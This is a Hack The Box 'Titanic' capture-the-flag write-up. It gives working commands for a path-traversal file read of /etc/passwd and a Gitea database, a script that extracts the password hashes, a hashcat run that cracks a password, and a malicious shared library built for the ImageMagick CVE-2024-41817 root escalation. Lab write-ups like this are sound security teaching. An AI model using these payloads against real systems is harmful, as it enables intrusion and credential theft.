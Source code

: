 ![image](https://github.com/user-attachments/assets/70fa2487-af5a-4dfc-8b58-16aa5cbe7ec9)# Titanic Write-up

<img src="https://labs.hackthebox.com/storage/avatars/eb5942ec56dd9b6feb06dcf8af8aefc6.png" width="200" height="200">

## Recon

### Nmap

`nmap -sC -sV 10.10.11.55`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
    |_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
    80/tcp open  http    Apache httpd 2.4.52
    |_http-title: Did not follow redirect to http://titanic.htb/
    |_http-server-header: Apache/2.4.52 (Ubuntu)
    Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Add host to `/etc/hosts`.

    echo "10.10.11.55 titanic.htb" | sudo tee -a /etc/hosts

## Exploitation

Titanic.htb main page:

![image](https://github.com/user-attachments/assets/71b40b1e-ff64-4f32-856d-54d159f23f17)

Book Your trip button

![image](https://github.com/user-attachments/assets/c4724f5d-2e45-43bd-aa4c-952e75998a42)

JSON file

![image](https://github.com/user-attachments/assets/2c105d92-c095-4a81-ae7a-f8fa08526f2e)

Request

![image](https://github.com/user-attachments/assets/c06f2384-b385-4148-a83f-e138ee65b364)

`/etc/passwd`

![image](https://github.com/user-attachments/assets/734d26d3-21bb-4858-a1fb-457834fd781f)

`/home/developer:/bin/bash`

![image](https://github.com/user-attachments/assets/003d0b52-b483-4573-a66f-85388ff02034)


Get the user flag!

![image](https://github.com/user-attachments/assets/09c488a2-b053-4995-9238-e1645627e117)

### Privilege escalation

Read `/etc/hosts`

![image](https://github.com/user-attachments/assets/2c5d511c-ba55-4c23-88e9-dbe511d1827c)

![image](https://github.com/user-attachments/assets/1cfb7600-e9eb-4e33-b328-486f4aaf510a)

Add `dev` subdomain to /etc/hosts on our machine!

    echo "10.10.11.55 dev.titanic.htb" | sudo tee -a /etc/hosts

dev.titanic.htb page

![image](https://github.com/user-attachments/assets/dcc13324-0065-4100-a93e-bf6aa610ecaf)

![image](https://github.com/user-attachments/assets/1172ba9c-2c0a-4ddf-b862-59a55bff68a2)

![image](https://github.com/user-attachments/assets/16f2df5c-2c1d-4d1d-b43a-b7a5f75fcc00)

![image](https://github.com/user-attachments/assets/ce09544c-a113-4fa2-aeac-8ae117163f06)

    curl --path-as-is 'http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/conf/app.ini'

![image](https://github.com/user-attachments/assets/5266dcb4-847a-4764-9000-5e95937617a1)

     /download?ticket=/home/developer/gitea/data/gitea/gitea.db

![image](https://github.com/user-attachments/assets/bc683fe5-e5e5-4f29-b383-8b0115d1bf71)

    curl --path-as-is 'http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db' --output database

![image](https://github.com/user-attachments/assets/06bd7efb-ce02-4a1e-875f-2c7263d42e50)

sqlitebrowser

![image](https://github.com/user-attachments/assets/cc4e3c59-08f5-4824-bcef-0229057b30b3)

    sqlite3 database.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes

![image](https://github.com/user-attachments/assets/a9e252e0-c0e2-4c04-80f9-47c651ef21a0)

`administrator`:`sha256`:`50000`:`LRSeX70bIM8x2z48aij8mw==`:`y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=`

`developer`:`sha256`:`50000`:`i/PjRSt4VE+L7pQA1pNtNA==`:`5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=`

Hashcat

`hashcat gitea.hashes /usr/share/wordlists/rockyou.txt --user`
    
    Session..........: hashcat
    Status...........: Running
    Hash.Mode........: 10900 (PBKDF2-HMAC-SHA256)
    Hash.Target......: gitea.hashes
    Time.Started.....: Sat Feb 22 11:19:03 2025 (21 secs)
    Time.Estimated...: Sun Feb 23 14:01:35 2025 (1 day, 2 hours)
    Kernel.Feature...: Pure Kernel
    Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:      298 H/s (2.90ms) @ Accel:256 Loops:32 Thr:1 Vec:8
    Recovered........: 0/2 (0.00%) Digests (total), 0/2 (0.00%) Digests (new), 0/2 (0.00%) Salts
    Progress.........: 6144/28688770 (0.02%)
    Rejected.........: 0/6144 (0.00%)
    Restore.Point....: 3072/14344385 (0.02%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:544-576
    Candidate.Engine.: Device Generator
    Candidates.#1....: adriano -> class08
    Hardware.Mon.#1..: Util: 79%
    
    sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528

SSH

`developer`:`25282528`

    ssh developer@titanic.htb

![image](https://github.com/user-attachments/assets/1c3f49e2-70b4-425a-8ccb-2ae58a39f6f8)

    find / -writable -type d 2>/dev/null

![image](https://github.com/user-attachments/assets/dc09cd23-fdbb-466a-9694-df5aec98e8ea)

![image](https://github.com/user-attachments/assets/fd13e376-4dc5-442b-935d-c17914022cd1)

![image](https://github.com/user-attachments/assets/bb69e97d-3805-4096-9082-583574a2bdfa)

CVE-2024-41817

https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8

![image](https://github.com/user-attachments/assets/3a07cc08-a5e8-4e5e-9129-41fabf153378)

/opt/app/static/assets/images/

exploit 

    gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    
    __attribute__((constructor)) void init(){
        system("cp /root/root.txt root.txt; chmod 754 root.txt");
        exit(0);
    }
    EOF

Get the root flag!

![image](https://github.com/user-attachments/assets/dfb2ea6f-058d-4184-83d8-4aa951fbcc00)
